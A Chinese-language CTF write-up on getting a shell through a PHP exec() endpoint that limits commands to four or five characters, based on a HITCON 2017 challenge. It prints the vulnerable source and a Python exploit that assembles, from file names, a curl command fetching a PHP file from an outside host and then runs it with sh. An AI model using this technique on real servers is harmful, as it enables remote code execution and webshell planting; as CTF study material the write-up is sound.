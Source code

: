 ```yaml
---
title: 绕过4-5个字符限制getshell
date: 2020-06-02
image: 
description: 由一道CTF题目探究绕过4，	5个字符限制getshell
categories: 
- note
tags:
- RCE bypass
---
```

这个东西起源于HITCON CTF 2017的一道题，高校战疫Hack Me也曾经出现过，最近突然做到了来说一下

参考：https://www.anquanke.com/post/id/87203

------

### 源码

五字版本

```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

四字版本：

```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

### 预备知识

在cmd长度小于5（4）个字符的时候用 `exec` 函数执行系统命令，不过 `exec` 函数是默认没有回显的，这里我们就只能盲打。

#### Linux用\连接多行命令

Linux系统中支持用 `\` 字符来分割一个多行命令，在一个文件中即使有无法识别的命令，报错，也不会影响其他正常命令执行

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120170817.png)

#### 用两个字符在Linux下创建文件

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120170833.png)

#### ls的文件排序和ls -t的文件排序

ls

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120170844.png)

ls -t

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120170853.png)

可以看到， `ls` 是按照alphabet来排序的， `ls -t` 是按照创建时间的顺序来排序的

 

### 分析

我们在原文可以看到，作者通过了创建文件，利用文件名构造curl命令，然后用ls命令追加到一个文件，再用sh命令去执行它

思路显然是非常的爆炸，但是我经过复现之后，发现这种构造很困难，作者利用了IP的16进制、8进制和长整型形式来构造文件名，而且分割之后恰恰又是满足alphabet的，而VPS的ip是固定不变的，想要找一个这样的IP需要一定的巧合。

并且原作者playload的到数第三行：

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120170902.png)

利用了A文件本身就在ls命令回显的特性，我构造到这里，很难受，这个技巧太高。

#### ls -t 、 rev 、 * 命令结合使用回避alphabet

而在HITCON2017的四字版本里面，有师傅利用 `ls -t` 和 `rev` 和 `*` 避开了这个问题，不过思路也是相当的巧妙

```
import requests
import time

host = '127.0.0.1'

playload = [
 # generate "g> ht- sl" to file "v"
    '>dir',
    '>g\>',
    '>ht-',
    '>sl',
    '*>v',
 # reverse file "v" to file "h", content "ls -th >g"
    '>rev',
    '*v>h',
  # generate "curl 59.xx0.x5x.4>p.php"
    '>\;\\',
    '>p',
    '>ph\\',
    '>p.\\',
    '>\>\\',
    '>4\\',
    '>5x.\\',
    '>0.x\\',
    '>xx\\',
    '>59.\\',
    '>\ \\',
    '>rl\\',
    '>cu\\',
    'sh h',
    'sh g',
]

for i in playload:
    cmd = i
    r = requests.get(host + '?cmd=' + i)
    #print(r.text)
    time.sleep(0.2)
```

这是5字版本的exp，4字版本只需要改一下自己的IP。

其中 `*` 这个命令很有意思

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120170912.png)

所以这个方案明显比原来的利用alphabet的排序来写shell好多了